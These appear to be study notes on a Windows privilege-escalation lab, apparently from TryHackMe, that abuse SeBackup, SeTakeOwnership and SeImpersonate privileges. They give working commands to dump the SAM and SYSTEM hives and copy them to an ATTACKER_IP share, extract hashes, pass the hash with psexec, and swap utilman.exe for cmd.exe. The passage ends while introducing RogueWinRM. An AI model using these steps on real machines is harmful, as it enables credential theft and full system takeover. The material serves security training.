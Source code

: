 >**Each user has a set of assigned privileges that can be checked with the following command:**
```sh
whoami /priv
```
You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

## SeBackup / SeRestore

   - The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place.
   - The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.
   - Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.

**DELETE** - Log in to the target machine via RDP using the following credentials: 
**User:** `THMBackup`

**Password:** `CopyMaster555`

This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges.
We will need to open a command prompt using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:

>Once on the command prompt, we can check our privileges with the following command:
```sh
whoami /priv
```
![[windows_privesc6.png]]

**To backup the SAM and SYSTEM hashes, we can use the following commands:**
```sh
C:\> reg save hklm\system C:\Users\THMBackup\system.hive 
The operation completed successfully. 

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive 
The operation completed successfully.
```
   - This will create a couple of files with the registry hives content.
   - We can now copy these files to our attacker machine using SMB or any other available method.

**For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:**
```sh
user@attackerpc$ mkdir share 

user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```
   - This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session.

**After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox:**
```powershell
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\ 

C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

**Use impacket to retrieve the users' password hashes:** - 
```sh
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

![[windows_privesc7.png]]

**We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:**
```sh
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
```

![[windows_privesc8.png]]

## SeTakeOwnership

   - The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable.
Log in to the target machine via RDP using the following credentials:

**User:** `THMTakeOwnership`

**Password:** `TheWorldIsMine2022`

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:

![[windows_privesc9.png]]

**We can check our privileges with the following command:**
```powershell
C:\> whoami /priv
```

![[windows_privesc10.png]]

**We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:**
![[windows_privesc11.png]]
- Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file.

**To replace utilman, we will start by taking ownership of it with the following command:**
```powershell
takeown /f C:\Windows\System32\Utilman.exe
```

![[windows_privesc12.png]]
 - Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need.

**To give your user full permissions over utilman.exe you can use the following command:**
```powershell
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

![[windows_privesc13.png]]

**After this, we will replace utilman.exe with a copy of cmd.exe:**
```powershell
C:\Windows\System32\> copy cmd.exe utilman.exe
```

**To trigger utilman, we will lock our screen from the start button:**
![[windows_privesc14.png]]
- And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges.

**Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:**
![[windows_privesc15.png]]

## SeImpersonate / SeAssignPrimaryToken

   - These privileges allow a process to impersonate other users and act on their behalf.
   - Impersonation usually consists of being able to spawn a process or thread under the security context of another user.
   - Impersonation is easily understood when you think about how an FTP server works.
   - The FTP server must restrict users to only access the files they should be allowed to see.

**Let's assume we have an FTP service running with user `ftp`. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:**
![[windows_privesc16.png]]
For the files to be served correctly, they would need to be accessible to the `ftp` user.

**There are several reasons why using ftp's token is not the best idea:**

   - In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user `ftp`. This adds complexity as we must manually configure specific permissions for each served file/directory.
   - This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it. - If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the `ftp` user has access.

**If, on the other hand, the FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:**
![[windows_privesc17.png]]

   - Now, if user Ann logs in to the FTP service and given that the ftp user has impersonation privileges, it can borrow Ann's access token and use it to access her files.
   - As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.
   - In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges.
   - Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs.

**To elevate privileges using such accounts, an attacker needs the following:**

1. To spawn a process so that users can connect and authenticate to it for impersonation to occur.
2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We will use RogueWinRM exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address: 
http://10.10.208.165/

**We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:**
![[windows_privesc18.png]]
   - To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.
   - The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges.
   - Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.